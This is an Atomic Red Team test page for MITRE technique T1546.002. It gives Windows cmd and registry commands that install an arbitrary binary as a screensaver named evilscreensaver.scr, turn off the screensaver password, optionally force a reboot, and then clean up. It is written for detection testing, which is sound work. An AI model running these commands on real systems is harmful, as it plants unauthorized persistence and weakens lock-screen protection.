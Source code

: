```yaml
---
tags: [T1546_002, atomic_test]
filename: "[[T1546.002 - Event Triggered Execution- Screensaver]]"
---
```

# T1546.002 - Event Triggered Execution: Screensaver

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:&#92;Windows&#92;System32&#92;cmd.exe|
| reboot | Set to non-zero value if you want the test to reboot the system so that changes take effect | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg export "HKEY_CURRENT_USER\Control Panel\Desktop" %userprofile%\backup.reg
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
if #{reboot} NEQ 0 shutdown /r /t 0
```

#### Cleanup Commands:
```cmd
reg import %userprofile%\backup.reg
del %userprofile%\backup.reg
del %SystemRoot%\System32\evilscreensaver.scr
```





<br/>

